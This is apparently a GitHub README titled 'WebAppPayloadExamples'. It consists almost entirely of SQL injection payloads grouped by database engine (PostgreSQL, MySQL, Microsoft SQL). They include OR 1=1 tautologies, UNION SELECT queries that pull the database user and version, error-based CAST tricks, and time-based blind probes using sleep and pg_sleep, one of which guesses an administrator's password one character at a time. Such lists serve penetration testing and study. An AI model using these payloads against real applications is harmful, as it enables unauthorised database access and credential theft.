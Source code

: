 # WebAppPayloadExamples
Brief example of various common web application vulnerability payloads. 
<h1>Injections</h1>
'||(SELECT%2bcase+when+substring(version(),1,1)%3d'5'+then+sleep(10)+else+sleep(0)+end+from+dual)||'
  <ul>
') OR 1=1 -- 

') OR ('a)'='a)

') OR 1=1 -- 

') UNION SELECT ALL @@version, system_user; -

') UNION SELECT user, 'b' --

<b>Postgress</b>

' OR 'a%'='a%

"' AND CAST(version() AS INT)=1 --"

'||(SELECT 'Shipping')||'

'||(SELECT version())||'

'||(SELECT user)||'

' UNION SELECT user, version() --

') UNION SELECT user, version() --

' UNION SELECT user, 'b' --

' UNION SELECT CAST(version() AS INT) --

Ste'||'ven

'||ver||'

'||(SELECT CASE WHEN SUBSTR(user, 1, 1) = 'n' THEN pg_sleep(10) ELSE pg_sleep(0) END)||'

||(SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users WHERE username='administrator' AND SUBSTRING(Password, 1, 1) = 'a')--

'||(SELECT CASE WHEN SUBSTR(user, 1, 1) = 'n' THEN pg_sleep(10) ELSE pg_sleep(0) END)||

<b>mysql</b>
Integer
') UNION SELECT user, version() --

100) UNION SELECT …
100 OR 1=1 --
100) OR 1=1 --
100 UNION SELECT user, 'b' --



1 OR 1=1
1 OR 'a'='a' -- 
(SELECT 3+3)
(SELECT CASE WHEN 1=1 THEN 1 ELSE 6 END)
(SELECT CASE WHEN SUBSTRING(@@version, 1, 1)='M' THEN 1 ELSE 2 END)
[IF ERRORS RETURNED]: (SELECT CASE WHEN convert(int,(SELECT @@version))=1 THEN 1 ELSE 2 END)

Integer MySQL
(SELECT CASE WHEN SUBSTRING(user(), 1, 1)='n' THEN 1 ELSE 9 END)-- -
(SELECT IF(SUBSTRING(@@version, 1, 1)='5',1,2))
't' OR (SELECT CASE WHEN substring(user() ,1,1)='n' THEN 1 ELSE 'error' END)
IF(SUBSTRING(@@version, 1, 1)='5',1,6)
(SELECT IF(1=1,1,2))
(SELECT IF(SUBSTRING(@@version, 1, 1)='5',1,2))

<b>Microsoft</b>
Microsoft SQL Displayed

'+(SELECT @@version)+'

Ship'+'ping

'+(SELECT 'Shipping')+'

'+(SELECT CURRENT_USER)+'

' OR 1=1 UNION SELECT USER, @@version --

INTEGER
100+OR++UNION+SELECT+user,+version()+--
(100)UNION+SELECT+@@version,user+--


Microsoft Blind

'+(SELECT CASE WHEN 1=1 THEN 'Shipping' ELSE 'NotADepartment' END)+'

'+(SELECT CASE WHEN SUBSTRING(@@version, 1, 1)='M' THEN 'Steven' ELSE 'notbob' END)+'

[IF ERRORS RETURNED]: '+(SELECT CASE WHEN convert(int,(SELECT @@version))=1 THEN 1 ELSE 2 END)+'

'+(SELECT CASE WHEN 1=1 THEN 'Steven" ELSE 'none' END)-- -

SELECT CAST((SELECT CURRENT_USER) AS int)

  </ul>

